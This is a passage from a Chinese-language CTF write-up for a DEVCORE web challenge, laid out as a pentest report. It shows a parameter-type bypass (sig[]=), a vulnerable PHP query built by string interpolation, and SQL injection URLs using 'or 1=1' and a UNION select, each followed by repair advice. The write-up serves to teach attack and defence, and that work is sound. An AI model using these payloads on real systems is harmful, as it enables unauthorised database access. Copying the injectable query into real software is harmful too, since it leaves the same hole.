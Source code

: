 例如：不知道 sig 參數仍可以讀取 id=1 的訂單資料
http://web.ctf.devcore.tw/order.php?id=1&sig[]=

### 修補建議
嚴格檢查 sig 參數必須為 String 型態，並可將 id 參數從流水號改使用難以預測的唯一編號字串，例如：UUID。

### 心得
* 這一個 flag 是 @txya900619 拿到的，不過不是預期解拿到的，是因為試了 SQL injection 拿到的 flag，因為放在第一個 column 裡面 www，所以直接在 `print.php` 的 id 的部分進行注入就可以拿到 flag 了
```php=
$res = $pdo->query("
    SELECT *
    FROM orders
    WHERE sig_hash = '$sig_hash' AND id = $id
    LIMIT 1
", PDO::FETCH_ASSOC);

try {
    $order = $res->fetch();
} catch (Error $e) {
    $order = [];
}
```

### Final payload
```bash=
http://web.ctf.devcore.tw/print.php?id=2412%20or%201=1&sig=F6nv0pcPYH7flOTWQxzSu60GzQUDLqDMpIlOhsHxZ4DH2XI7iMAN8sk7LAbBkGCV
```

## 弱點 03：SQL Injection
### CVSS
Score:9.1, CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:H

### 風險描述
攻擊者可以透過此弱點讀取 web 資料庫內的所有資料，包括訂單資料等。

### 弱點細節
由於 id 參數未作任何過濾而直接被帶入 SQL 字串，導致攻擊者可以注入任意的 SQL 語法，讀取資料庫內的所有資料。

例如：可以利用 version() 讀取資料庫版本資訊
http://web.ctf.devcore.tw/print.php?id=0+union+select+1,2,3,4,5,6,7,version(),9&sig=

### 修補建議
改用 Prepared Statement 的方式綁定參數，或利用 PDO::quote 等函式將特殊字元進行跳脫處理。

### 心得
* 就如同之前說的，`print.php` 的 id 是注入點，本來想要用 sqlmap 直接打，不過他會生成 pdf 檔案，所以回顯應該是不足以 sqlmap 判斷的，所以只能手工，手工到最後發現 flag 在 backend_users 的 description 裡面
